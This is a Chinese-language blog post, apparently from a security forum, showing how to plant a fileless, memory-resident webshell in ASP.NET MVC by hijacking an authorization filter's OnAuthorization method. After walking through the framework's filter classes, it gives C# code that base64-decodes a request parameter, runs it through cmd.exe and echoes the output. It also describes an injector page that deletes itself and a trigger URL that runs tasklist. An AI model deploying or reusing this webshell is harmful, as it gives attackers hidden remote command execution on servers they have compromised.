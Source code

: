 0x01 背景
=======

授权过滤器(**IAuthorizationFilter**)在认证过滤器(IAuthenticationFilter)之后，从命名来看AuthorizationFilter用于完成授权相关的工作，所以它应该在Action方法被调用之前执行才能起到授权的作用。不仅限于授权，如果我们希望目标Action方法被调用之前中断执行的流程做点什么，都可以以AuthorizationFilter的形式来实现

0x02 效果
=======

大致可以分为三步，后续文章里笔者还会继续简化和高效利用，目前先运行第1步访问 /dotnetofAuthenticationFilter.aspx 将虚拟文件注入到内存，并删除此文件；第2步打开新的浏览器标签页访问默认主页 /?content=dGFza2xpc3Q=也可以正常触发，记得tasklist需base编码。成功结果如下图

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-03b17ae887560df4bf56c514e74b4b7496a2b753.png)

0x03 原理
=======

3.1 FilterAttribute
-------------------

在MVC中所有的过滤器默认都继承了基础类`FilterAttribute`，如下面的代码片断所示，FilterAttribute特性实现了IMvcFilter接口，该接口定义了Order和AllowMultiple两个只读属性，分别用于控制筛选器的执行顺序以及多个同类的筛选器能够同时应用到同一个目标类或者方法。

```php
[AttributeUsage(AttributeTargets.Class | AttributeTargets.Method, Inherited = true, AllowMultiple = false)]
public abstract class FilterAttribute : Attribute, IMvcFilter
    {
        private static readonly ConcurrentDictionary<Type, bool> _multiuseAttributeCache = new ConcurrentDictionary<Type, bool>();
        private int _order = -1;
        public bool AllowMultiple => AllowsMultiple(GetType());
        public int Order
        {
            get
            {
                return _order;
            }
            set
            {
                if (value < -1)
                {
                    throw new ArgumentOutOfRangeException("value", MvcResources.FilterAttribute_OrderOutOfRange);
                }
                _order = value;
            }
        }

        private static bool AllowsMultiple(Type attributeType)
        {
            return _multiuseAttributeCache.GetOrAdd(attributeType, (Type type) => type.GetCustomAttributes(typeof(AttributeUsageAttribute), inherit: true).Cast<AttributeUsageAttribute>().First()
                .AllowMultiple);
        }
    }
```

从应用在FilterAttribute上的AttributeUsageAttribute的定义可以看出该特性可以应用在类型和方法上，这意味着筛选器一般都可以应用在Controller类型和Action方法上。只读属性AllowMultiple实际上返回的是AttributeUsageAttribute的同名属性，通过上面的定义我们可以看到默认情况下该属性值为False。

3.2 **OnAuthorization**
-----------------------

所有的AuthorizationFilter实现了接口IAuthorizationFilter。如下面的代码片断所示，IAuthorizationFilter定义了一个OnAuthorization方法用于实现授权的操作。作为该方法的参数filterContext是一个表示授权上下文的AuthorizationContext对象， 而AuthorizationContext直接继承自ControllerContext。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-0fc9675b198e605f281414c6922a3d07e4aff0d9.png)

AuthorizationFilter的执行是进行Action执行的第一项工作，因为Action方法执行等操作只有在成功授权的基础上才会有意义，后续创建一个表示授权上下文的AuthorizationContext对象，然后将此AuthorizationContext对象作为参数，按照Filter对象Order和Scope属性决定的顺序执行所有AuthorizationFilter的OnAuthorization。

3.3 **AuthorizeAttribute**
--------------------------

微软MVC框架默认提供了AuthorizationFilter实现类`AuthorizeAttribute`，该类既继承了抽象类`FilterAttribute`又实现了`IAuthorizationFilter`接口，如果我们要求某个Action只能被认证的用户访问，可以在Controller类型或者Action方法上应用具有如下定义的AuthorizeAttribute特性。AuthorizeAttribute还可以具体限制目标Action可被访问的用户或者角色，它的Users和Roles属性用于指定被授权的用户名和角色列表，中间用采用逗号作为分隔符。如果没有显式地对Users和Roles属性进行设置，AuthorizeAttribute在进行授权操作的时候只要求访问者是被认证的用户。如下代码片段

```php
        public string Roles
        {
            get
            {
                return _roles ?? string.Empty;
            }
            set
            {
                _roles = value;
                _rolesSplit = SplitString(value);
            }
        }

        public string Users
        {
            get
            {
                return _users ?? string.Empty;
            }
            set
            {
                _users = value;
                _usersSplit = SplitString(value);
            }
        }
```

如果授权失败（当前访问者是未被授权用户，或者当前用户的用户名或者角色没有在指定的授权用户或者角色列表中），AuthorizeAttribute会创建一个HttpUnauthorizedResult对象，并赋值给AuthorizationContext的Result属性，意味着会响应一个状态为“401，Unauthorized”的回复。如下图AuthorizeAttribute类里定义的OnAuthorization，里面包含用户`Users`和角色`Roles`属性，`AuthorizeCore`方法用来实现授权检查，`HandleUnauthorizedRequest`方法是当授权失败时处理的动作

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-cde89cf6be8255dffff8d7ecea809e4e61e55bad.png)

0x04 实现Webshell
===============

下面笔者将改写OnAuthorization方法，首先我们在站点文件夹下添加一个名为 dotnetofAuthorizeFilter.aspx 的过滤器文件，创建MyAuthenticationFilter类继承 IAuthorizationFilter 接口，OnAuthorization方法内获取外部传入的base64数据，得到request对象后解码，另外为了具备命令执行后回显，使用StandardOutput.ReadToEnd读取命令执行后的所有返回数据，代码片段如下

```php
if (content != null)
            {
                HttpResponseBase response = filterContext.HttpContext.Response;
                Process p = new Process();
                p.StartInfo.FileName = "cmd.exe";
                p.StartInfo.Arguments = "/c " + System.Text.Encoding.GetEncoding("utf-8").GetString(Convert.FromBase64String(content)); 
                p.StartInfo.UseShellExecute = false;
                p.StartInfo.RedirectStandardOutput = true;
                p.StartInfo.RedirectStandardError = true;
                p.Start();
                byte[] data = Encoding.Default.GetBytes(p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd());
                response.Write("" + Encoding.Default.GetString(data) + "");
                response.End();
            }
```

0x05 结语
=======

.NET MVC下还有很多这样的过滤器可以被用来实现虚拟Webshell，如果对这些技巧感兴趣的话可以多关注我们的[博客](https://www.cnblogs.com/Ivan1ee/)、[公众号dotNet安全矩阵](https://mp.weixin.qq.com/s/VIsJlDmWGD0QcgBDDsRP9g)以及[星球](https://t.zsxq.com/04yFmii2b)，下一篇将继续分享 .NET相关的安全知识，请大伙继续关注。另外文章涉及的PDF和Demo以及工具已打包发布在星球，欢迎对.NET安全关注和关心的同学加入我们，在这里能遇到有情有义的小伙伴，大家聚在一起做一件有意义的事。